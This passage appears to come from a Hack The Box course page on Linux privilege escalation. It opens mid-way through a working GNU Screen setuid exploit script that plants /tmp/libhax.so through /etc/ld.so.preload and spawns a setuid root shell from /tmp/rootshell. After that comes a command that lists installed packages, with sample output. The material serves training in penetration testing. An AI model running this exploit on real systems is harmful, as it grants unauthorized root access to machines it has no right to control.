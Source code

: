 ```bash
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```


Create a List of Installed Packages

```shell-session
cyberslut@htb[/htb]$ apt list --installed | tr "/" " " | cut -d" " -f1,3 | sed 's/[0-9]://g' | tee -a installed_pkgs.list

Listing...                                                 
accountsservice-ubuntu-schemas 0.0.7+17.10.20170922-0ubuntu1                                                          
accountsservice 0.6.55-0ubuntu12~20.04.5                   
acl 2.2.53-6                                               
acpi-support 0.143                                         
acpid 2.0.32-1ubuntu1                                      
adduser 3.118ubuntu2                                       
adwaita-icon-theme 3.36.1-2ubuntu0.20.04.2                 
alsa-base 1.0.25+dfsg-0ubuntu5                             
alsa-topology-conf 1.2.2-1                                                                                            
alsa-ucm-conf 1.2.2-1ubuntu0.13                            
alsa-utils 1.2.2-1ubuntu2.1                                                                                           
amd64-microcode 3.20191218.1ubuntu1
anacron 2.3-29
apg 2.2.3.dfsg.1-5
app-install-data-partner 19.04
apparmor 2.13.3-7ubuntu5.1
apport-gtk 2.20.11-0ubuntu27.24
apport-symptoms 0.23
apport 2.20.11-0ubuntu27.24
appstream 0.12.10-2
apt-config-icons-hidpi 0.12.10-2
apt-config-icons 0.12.10-2
apt-utils 2.0.9
...SNIP...
```

